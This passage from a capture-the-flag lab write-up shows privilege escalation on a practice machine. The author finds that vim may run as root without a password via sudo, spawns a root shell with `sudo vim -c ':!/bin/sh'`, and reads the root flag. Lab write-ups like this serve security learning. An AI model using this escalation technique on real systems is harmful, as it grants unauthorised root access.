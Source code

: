 After that i tried some usual PrivEsc ways, and i found that we can run the binary `vim` as root without password.

```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

So after checking in [GTFOBins](https://gtfobins.github.io/) and i found that we can spawn a shell using `vim`, we can use the next command to spawn the shell:

```bash
sudo vim -c ':!/bin/sh'
:!/bin/sh
# whoami
root
```

We now have a root shell and we can open the root flag.

```bash
# cd /root
# ls
root.txt
# cat root.txt       
W3ll d***. *** **e it!
```

---

![Desktop View](SimpleCTFPwn.png)

-- -
**Thanks for reading, i’ll appreciate that you take a look to my other posts :)**

